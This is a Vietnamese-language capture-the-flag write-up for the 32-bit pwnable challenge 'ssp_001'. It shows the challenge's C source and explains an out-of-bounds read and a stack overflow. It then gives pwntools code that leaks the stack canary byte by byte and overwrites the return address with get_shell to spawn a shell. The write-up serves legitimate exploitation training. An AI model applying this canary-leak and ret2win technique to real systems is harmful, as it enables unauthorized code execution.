







# *Challenge: ssp_001*
Level 2 - System Hacking - pwnable

## Source Code
```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>
void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}
void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    signal(SIGALRM, alarm_handler);
    alarm(30);
}
void get_shell() {
    system("/bin/sh");
}
void print_box(unsigned char *box, int idx) {
    printf("Element of index %d is : %02x\n", idx, box[idx]);
}
void menu() {
    puts("[F]ill the box");
    puts("[P]rint the box");
    puts("[E]xit");
    printf("> ");
}
int main(int argc, char *argv[]) {
    unsigned char box[0x40] = {};
    char name[0x40] = {};
    char select[2] = {};
    int idx = 0, name_len = 0;
    initialize();
    while(1) {
        menu();
        read(0, select, 2);
        switch( select[0] ) {
            case 'F':
                printf("box input : ");
                read(0, box, sizeof(box));
                break;
            case 'P':
                printf("Element index : ");
                scanf("%d", &idx);
                print_box(box, idx);
                break;
            case 'E':
                printf("Name Size : ");
                scanf("%d", &name_len);
                printf("Name : ");
                read(0, name, name_len);
                return 0;
            default:
                break;
        }
    }
}
```

## Phân tích
- Mô tả chương trình: Ta sẽ được vào 1 vòng lặp vô hạn, ta được chọn 3 option: F, P, E. Với F để nhập chuỗi box, P để in ra index của chuỗi box ở dạng hexa, E để thoát chương trình với việc nhập Name Size rồi read Name với Name Size đó.
- Với option P: Ta thấy hàm scanf("%d", &idx) với idx được khai báo với kiểu dữ liệu int nên khi vào hàm print_box lại gọi box[idx] nên chắc chắn ta có bug out-of-bounds ở đây.
- Với option E: Ta đc tự do chọn size của chuỗi Name nên ta có bug buffer overflow ở đây.
- Ta sẽ kiểm tra các chế độ bảo vệ của file:

-> Nx: Chương trình dùng kiến trúc i386 32 bits, Có canary, và No PIE.
-> Vậy idea khai thác là ta sẽ tận dụng out-of-bound  để leak từng 1 byte của canary rồi sau đó ret2win như bình thường.

## Khai thác
- Để thuận tiện khai thác ta sẽ viết sẵn 2 hàm chọn option P và E:
```py
def printBox(idx):
        p.sendafter(b"> ", b'P')
        p.sendlineafter(b"index : ", str(idx).encode())

def exitPro(data):
        p.sendafter(b"> ", b'E')
        p.sendlineafter(b"Size : ", str(len(data)).encode())
        p.sendafter(b"Name : ", data)
```
#### Leak canary
- Đầu tiên ta sẽ dùng option F nhập 1 buffer bất kì để kiểm tra xem buf bắt đầu từ đâu:

- Ta sẽ tính vị trí bắt đầu của canary để leak:

- Rồi giờ sẽ tạo 1 vòng for lặp 3 lần liên tiếp để leak từ byte của canary. Ta sẽ khởi tạo 1 list với phần tử đầu tiên là 0 luôn ta byte cuối của canary luôn là 0. Sau đó khéo léo nhận dúng đủ byte leak ta, ta có script:
```py
list = [0]

for i in range(3):
	printBox(0x80 + i + 1)
	p.recvuntil(b" is : ")
	byte = int(p.recvline()[:-1], 16)
	list.append(byte)
```

- Rồi giờ ta tạo canary rồi debug kiểm tra:
```py
canary = b""
for c in list:
	canary += p8(c)

canary = u32(canary)
print(hex(canary))
```

-> Đã có canary

#### Ret2win

- Ta sẽ tính lại offset đến canary để chèn canary, rồi overwrite eip thành địa chỉ hàm get_shell thôi

```py
pl = flat(b"A"*0x40, canary, b"AAAAAAAA", exe.sym.get_shell)
exitPro(pl)
```
- Debug kiểm tra stack:


-> Rồi gửi lên server lấy shell thôi
